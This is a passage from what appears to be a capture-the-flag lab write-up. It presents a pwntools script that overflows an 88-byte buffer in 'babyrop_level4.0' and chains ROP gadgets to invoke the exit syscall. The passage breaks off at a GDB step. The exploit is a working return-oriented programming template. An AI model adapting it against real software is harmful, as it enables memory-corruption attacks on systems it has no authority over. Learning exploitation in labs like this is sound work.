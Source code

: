 ```python
payload = b'A' * offset                     # Fill buffer to return address
payload += p64(pop_rax) + p64(60)           # rax = 60 (SYS_exit)
payload += p64(pop_rdi) + p64(4)            # rdi = 4 (exit code)
payload += p64(syscall)                     # trigger syscall
```

The program should cleanly terminate with exit code `4`.

Use the following script -

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'babyrop_level4.0')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()

offset = 88 

pop_rax = 0x401fad # 0x401fad: pop rax; ret; 
pop_rdi = 0x401fd5 # 0x401fd5: pop rdi; ret;
pop_rsi = 0x401fcd # 0x401fcd: pop rsi; ret;
pop_rdx = 0x401fa5 # 0x401fa5: pop rdx; ret;
syscall = 0x401fb5 # 0x401fb5: syscall;

payload = b'A' * offset                     # Fill buffer to return address
payload += p64(pop_rax) + p64(60)           # rax = 60 (SYS_exit)
payload += p64(pop_rdi) + p64(4)            # rdi = 4 (exit code)
payload += p64(syscall)                     # trigger syscall

io.sendline(payload)
io.interactive()

```

We're running the binary under GDB using:
